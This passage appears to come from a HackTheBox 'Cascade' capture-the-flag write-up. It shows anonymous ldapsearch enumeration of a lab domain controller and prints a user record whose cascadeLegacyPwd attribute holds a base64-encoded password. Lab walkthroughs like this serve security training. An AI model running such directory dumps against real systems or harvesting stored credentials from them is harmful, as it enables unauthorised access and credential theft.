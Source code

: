 I can dump all to a file with:

```bash
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" > ldap-anonymous
```

If I wanted to get just the people, I could provide a query::

```bash
                                                                                                                                                                                                                                                            
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Cascade]
└─$ ldapsearch -H ldap://10.10.10.182 -x -b "DC=cascade,DC=local" '(objectClass=person)' > ldap-people 
```

Now going through the data thoroughly, I found an interesting thing about the user `Ryan Thompson` at the very end, `cascadeLegacyPwd`: 

```bash
# Ryan Thompson, Users, UK, cascade.local
dn: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Ryan Thompson
sn: Thompson
givenName: Ryan
distinguishedName: CN=Ryan Thompson,OU=Users,OU=UK,DC=cascade,DC=local
instanceType: 4
whenCreated: 20200109193126.0Z
whenChanged: 20200323112031.0Z
displayName: Ryan Thompson
uSNCreated: 24610
memberOf: CN=IT,OU=Groups,OU=UK,DC=cascade,DC=local
uSNChanged: 295010
name: Ryan Thompson
objectGUID:: LfpD6qngUkupEy9bFXBBjA==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 132247339091081169
lastLogoff: 0
lastLogon: 132247339125713230
pwdLastSet: 132230718862636251
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAMvuhxgsd8Uf1yHJFVQQAAA==
accountExpires: 9223372036854775807
logonCount: 2
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132294360317419816
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=

```
